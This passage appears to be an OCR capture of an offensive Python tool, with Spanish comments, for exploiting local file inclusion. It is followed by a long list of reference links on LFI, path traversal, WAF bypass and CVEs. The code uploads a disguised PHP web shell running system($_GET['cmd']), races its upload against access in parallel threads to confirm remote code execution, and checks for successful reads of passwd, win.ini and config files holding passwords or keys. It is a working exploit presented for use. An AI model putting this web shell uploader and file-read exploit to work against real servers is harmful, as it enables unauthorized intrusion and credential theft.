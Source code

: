 ```python
            # Subir shell PHP con bytes mágicos si requerido
            shell_content = b'fakeapp<?php system($_GET["cmd"]); ?>'
            files = {'file': ('shell.php', shell_content, 'text/plain')}
      
            try:
                response = self.session.post(upload_endpoint, files=files, timeout=5)
                return response.status_code == 200
            except:
                return False
  
        def access_shell():
            # Intentar acceder al shell subido
            try:
                response = self.session.get(
                    f"{self.base_url}?{self.param}=shell.php&cmd=id",
                    timeout=2
                )
                return 'uid=' in response.text
            except:
                return False
  
        # Ejecutar race condition con hilos
        for attempt in range(50):
            with concurrent.futures.ThreadPoolExecutor(max_workers=2) as executor:
                upload_future = executor.submit(upload_shell)
                access_future = executor.submit(access_shell)
          
                upload_result = upload_future.result()
                access_result = access_future.result()
          
                if upload_result and access_result:
                    race_results.append({
                        'method': 'race_condition_upload',
                        'attempt': attempt,
                        'rce_confirmed': True
                    })
                    print(f"[+] Race condition RCE exitoso en intento {attempt}")
                    break
              
            time.sleep(0.1)
  
        return race_results
  
    def _is_file_read_successful(self, response, target_file):
        """
        Determina si la lectura del archivo fue exitosa
        """
        if response.status_code != 200:
            return False
      
        content = response.text.lower()
  
        # Indicadores por tipo de archivo
        if 'passwd' in target_file:
            return 'root:' in content or 'bin:' in content or 'daemon:' in content
        elif 'win.ini' in target_file:
            return '[fonts]' in content or '[extensions]' in content
        elif 'hosts' in target_file:
            return 'localhost' in content or '127.0.0.1' in content
        elif 'config' in target_file:
            return 'password' in content or 'database' in content or 'key' in content
      
        return len(response.text) > 50 and 'error' not in content
```

[^1]: https://virtualcyberlabs.com/local-file-inclusion-lfi/
[^2]: https://atlansec.es/blog/posts/06-04-2025/
[^3]: https://www.invicti.com/learn/local-file-inclusion-lfi/
[^4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion
[^5]: https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/
[^6]: https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html
[^7]: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
[^8]: https://www.fastly.com/blog/back-to-basics-directory-traversal
[^9]: https://www.invicti.com/learn/directory-traversal-path-traversal/
[^10]: https://www.invicti.com/blog/web-security/php-stream-wrappers/
[^11]: https://infosecwriteups.com/rce-via-lfi-oscp-tactics-for-code-execution-and-gaining-a-foothold-on-a-system-b35d0655f3c7
[^12]: https://nsfocusglobal.com/path-traversal-attack-protection/
[^13]: https://www.slideshare.net/slideshow/waf-bypassing-techniques/64302972
[^14]: https://bugbase.ai/blog/top-10-ways-to-bypass-waf
[^15]: https://bogner.sh/2018/04/race-to-rce-there-is-more-on-the-web-than-just-xss/
[^16]: https://github.com/topics/lfi-detection?o=asc\&s=updated
[^17]: https://www.acunetix.com/vulnerability-scanner/lfi-vulnerability-scanner/
[^18]: https://stackoverflow.com/questions/64088681/how-to-test-and-exploit-lfi-vulnerabilities
[^19]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^20]: https://www.avertium.com/flash-notices/wordpress-review-plugin-local-file-inclusion
[^21]: https://support.polarisec.com/en/docs/general-knowledge/lfi-and-rfi-attacks/
[^22]: https://github.com/advisories/GHSA-qq86-38fr-rcf3
[^23]: https://nvd.nist.gov/vuln/detail/CVE-2025-49138
[^24]: https://github.com/advisories/GHSA-p75g-cxfj-7wrx
[^25]: https://www.cvedetails.com/cve/CVE-2025-51057/
[^26]: https://owasp.org/www-community/attacks/Path_Traversal
[^27]: https://www.exploit-db.com/exploits/52125
[^28]: https://portswigger.net/web-security/file-path-traversal
[^29]: https://www.riskinsight-wavestone.com/en/2022/09/barbhack-2022-leveraging-php-local-file-inclusion-to-achieve-universal-rce/
[^30]: https://nvd.nist.gov/vuln/detail/CVE-2025-26905
[^31]: https://techbrunch.github.io/patt-mkdocs/Directory Traversal/
[^32]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/
[^33]: https://www.cve.org/cverecord?id=CVE-2025-0632
[^34]: https://www.aikido.dev/blog/path-traversal-in-2024-the-year-unpacked
[^35]: https://patchstack.com/articles/critical-lfi-to-rce-vulnerability-in-wp-ghost-plugin-affecting-200k-sites/
[^36]: https://wpscan.com/vulnerability/7570bd32-f660-44e7-abc6-5d4ea369fe30/
[^37]: https://advisories.checkpoint.com/defense/advisories/public/2024/cpai-2024-0395.html/
[^38]: https://deephacking.tech/php-wrappers-pentesting-web/
[^39]: https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion
[^40]: https://brightsec.com/blog/local-file-inclusion-lfi/
[^41]: https://4geeks.com/lesson/local-file-inclusion-remote-file-inclusion
[^42]: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass
[^43]: https://github.com/topics/lfi-scanner
[^44]: https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks
[^45]: https://medium.verylazytech.com/enhancing-your-understanding-of-local-file-inclusion-lfi-35a26f9efadd
[^46]: https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki
[^47]: https://fluidattacks.com/es/advisories/silva
[^48]: https://hackmd.io/@Solderet/list/%2FgZFHwwuQQo6ya_Q6ULYrdA
[^49]: https://www.scribd.com/document/857621425/Advanced-LFI-Bypass-Techniques
[^50]: https://gynvael.coldwind.pl/?id=418
[^51]: https://waf-bypass.com/2025/03/page/2/
[^52]: https://help.fortinet.com/fweb/605/Content/FortiWeb/fortiweb-admin/web_protection.htm
[^53]: https://www.youtube.com/watch?v=5g137gsB9Wk
[^54]: https://infosecwriteups.com/️-how-to-bypass-web-application-firewalls-wafs-8346e6e79dd3
[^55]: https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/783
[^56]: https://waf-bypass.com/2025/05/